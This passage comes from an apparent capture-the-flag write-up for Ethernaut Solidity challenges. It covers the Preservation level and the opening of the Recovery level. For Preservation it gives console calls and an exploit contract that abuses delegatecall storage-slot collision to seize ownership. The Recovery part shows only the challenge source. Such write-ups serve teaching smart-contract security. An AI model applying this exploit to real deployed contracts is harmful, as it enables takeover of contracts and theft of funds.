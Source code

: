 ```solidity

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

This contract is using `delegatecall` to set the time, we can use this functionality to maliciously update the storage of the contract.

> #### Solution:
> - First we need to call the `setFirstTime` to set the slot 0 of the storage to our exploit contract address.
> 
> ```js
> await contract.setFirstTime("0xfcd4dc8e8aab4aad401ac4198af72aa3f172e6b5")
> /* replace 0xfcd4dc8e8aab4aad401ac4198af72aa3f172e6b5 with exploit contract address*/
> ```
> - Then after updating the slot 0 of the storage we can delegatecall to our exploit contract where we can update the slot 3 of the storage. Again,
> 
> ```js
> await contract.setFirstTime(player);
> /* Here the player has no significance you can pass any values you want*/
> ```
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> contract preservationExp {
>     address public timeZone1Library;
>     address public timeZone2Library;  
>     address public owner;
>     
>     function setTime(uint _time) public {
>         owner = address(0xC009215b0c94debc7656502B015DFB9E51529A2D);
>     }
> }
> 
> ```
<hr>

## 17 Recovery
We need to recover the `0.001` ether sent to the lost contract.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}
```